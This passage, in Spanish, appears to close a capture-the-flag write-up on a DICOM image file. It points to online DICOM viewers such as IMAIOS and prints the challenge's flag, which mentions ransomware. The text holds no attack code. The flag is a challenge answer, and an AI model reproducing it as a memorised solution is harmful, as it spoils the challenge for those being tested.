Para abrir este tipo de archivos se pueden utilizar herramientas específicas o simplemente con visualizadores online como [IMAIOS](https://www.imaios.com/en/imaios-dicom-viewer).



> **flag: clctf{D1c0m_F1l3s_And_R4ns0mw4re_4re_v3ry_d4ng3r0uS!!!}**